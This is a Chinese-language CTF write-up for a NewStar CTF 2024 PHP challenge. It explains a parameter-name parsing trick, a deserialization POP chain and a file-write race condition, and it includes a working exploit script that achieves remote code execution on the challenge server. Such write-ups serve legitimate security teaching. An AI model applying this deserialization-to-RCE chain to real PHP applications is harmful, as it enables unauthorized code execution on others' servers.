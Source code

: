 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 臭皮吹泡泡

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class study
{
    public $study;

    public function __destruct()
    {
        if ($this->study == "happy") {
            echo ($this->study);
        }
    }
}
class ctf
{
    public $ctf;
    public function __tostring()
    {
        if ($this->ctf === "phpinfo") {
            die("u can't do this!!!!!!!");
        }
        ($this->ctf)(1);
        return "can can need";
    }
}
class let_me
{
    public $let_me;
    public $time;
    public function get_flag()
    {
        $runcode="<?php #".$this->let_me."?>";
        $tmpfile="code.php";
        try {
            file_put_contents($tmpfile,$runcode);
            echo ("we need more".$this->time);
            unlink($tmpfile);
        }catch (Exception $e){
            return "no!";
        }

    }
    public function __destruct(){
        echo "study ctf let me happy";
    }
}

class happy
{
    public $sign_in;

    public function __wakeup()
    {
        $str = "sign in ".$this->sign_in." here";
        return $str;
    }
}



$signin = $_GET['new_star[ctf'];
if ($signin) {
    $signin = base64_decode($signin);
    unserialize($signin);
}else{
    echo "你是真正的 CTF New Star 吗？让我看看你的能力";
}
```

在参数传递时，`[` 是非法变量名，会被 PHP 处理成 `_`，这导致我们无法直接传递想要的参数 `new_star[ctf`.

然而，php 这样的处理只会处理一次，在首次处理后不会继续处理随后的违规字符。

因此，当我们传递的参数是 `new[star[ctf` 的时候，php 会处理成 `new_star[ctf`，这样就成功传递了参数。

构建 POP 链的终点是 `let_me` 的 `get_flag()` 函数，这里可以进行文件写入。

```php
$runcode = "<?php #". $this->let_me . "?>";
$tmpfile = "code.php";
try {
    file_put_contents($tmpfile, $runcode); // [!code highlight]
    echo ("we need more" . $this->time);
    unlink($tmpfile);
} catch (Exception $e) {
    return "no!";
}
```

文件前后添加了字符 `<?php #` 和 `?>`，这会把我们写入的 php 代码注释掉，导致不能正常执行。

这里我们可以闭合 php 符号，从而执行 php 代码。

```php
<?php # ?> <?php echo("1");?>
```

这里我们将代码写入文件就会被立刻删除，所以我们需要找一个办法，使得文件存在的时间长一点。注意到：

```php
public $ctf;
public function __tostring()
{
    if ($this->ctf === "phpinfo") {
        die("u can't do this!!!!!!!");
    }

    ($this->ctf)(1); // [!code highlight]
    return "can can need";
}
```

这里可以构造一个 `sleep(1)`，使得文件存在的时间增加 1 秒，这样就可以完成条件竞争。

<Container type='quote'>

出完题目发现可以直接使用 `die(1)`，这样可以直接使得文件不会被删除就退出。
</Container>

构造脚本如下：

```php
<?php
error_reporting(0);
class study {
    public $study;
}
class ctf {
    public $ctf;
}
class let_me {
    public $let_me;
    public $time;
}

class happy {
    public $sign_in;
}
$payload  = new happy();
$payload ->sign_in = new ctf();
$exp = new let_me();
$exp->let_me="?> <?php phpinfo();";
$exp->time=new ctf();
$exp->time->ctf="sleep";
$payload ->sign_in->ctf = array($exp,"get_flag");
echo base64_encode(serialize($payload));
?>
```

发包后快速访问我们写入的 `code.php`，完成 RCE（或者写一个脚本访问，或者 BurpSuite 爆破）

![发包](/assets/images/wp/2024/week5/choupichuipaopao_1.png)

![查看phpinfo](/assets/images/wp/2024/week5/choupichuipaopao_2.png)
